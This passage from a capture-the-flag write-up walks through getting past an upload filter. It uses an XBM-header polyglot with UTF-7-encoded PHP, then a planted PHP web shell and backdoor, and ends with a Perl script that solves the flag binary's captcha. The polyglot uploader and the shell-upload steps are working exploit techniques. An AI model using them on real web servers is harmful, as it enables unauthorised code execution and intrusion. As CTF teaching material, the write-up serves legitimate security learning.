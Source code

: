 ```html
#define 4c11f3876d494218ff327e3ca6ac824f_width 1337
#define 4c11f3876d494218ff327e3ca6ac824f_height 1337
<form method="POST" action="upl.asp" enctype="multipart/form-data">
    <input type="file" name="image">
	<input type="text" name="name">
    <input type="submit" name=upload>
</form>
```

```php
#define 4c11f3876d494218ff327e3ca6ac824f_width 1337
#define 4c11f3876d494218ff327e3ca6ac824f_height 1337
+ADw?php
if (isset(+ACQAXw-POST+AFsAIg-upload+ACIAXQ)) +AHs
    +ACQ-tmp+AF8-name +AD0 +ACQAXw-FILES+AFsAIg-image+ACIAXQBbACI-tmp+AF8-name+ACIAXQA7
    move+AF8-uploaded+AF8-file(+ACQ-tmp+AF8-name, +ACQAXw-POST+AFsAIg-name+ACIAXQ)+ADs
+AH0
?+AD4-
```

Now, we can bypass any filter of main upload form!<br>
New files are not forced be image or not include `<?`.<br>
Thus, we can upload our backdoor `.so` file and shell `.php` file.<br>
In addition, we can easily know the web root is `/var/www/html`, we can run our `shell.php`<br>

Great, now we got a shell!
![ls -al](https://i.imgur.com/rAPaSMZ.png)


## Wait, captcha?

Now, we thought just running `/get_flag` gives us a flag.<br>
But, when we tried running `/get_flag`, it gives a simple captcha that is addition of 5 numbers.<br>
![Captcha](https://i.imgur.com/rmjNPAY.png)

We have to deal with the pipes!

Firstly, we just tried reverse shell.<br>
With some tries on our shell, we found that python, gcc is not available, but perl is<br>
But, with some problem, SIGALRM is triggered too fast, we couldn't deal with the captcha :(

So we decided to deal standalonely, without reverse shell<br>
After some search, we found that there is a feature to process pipe in child process in perl, `IPC`.<br>
We wrote a perl script to spawn `/get_flag`, solve the captcha, and get flag

```perl
#!/usr/bin/env perl 
use warnings;
use strict;
use IPC::Open2;

$| = 1;

my $pid = open2(\*out2, \*in2, '/get_flag') or die;

my $reply = <out2>;
print STDOUT $reply; #string: solve captcha..
$reply = <out2>;
print STDOUT $reply; #captcha formula

my $answer = eval($reply);
print STDOUT "answer: $answer\n"; 

print in2 " $answer "; #send it to process
```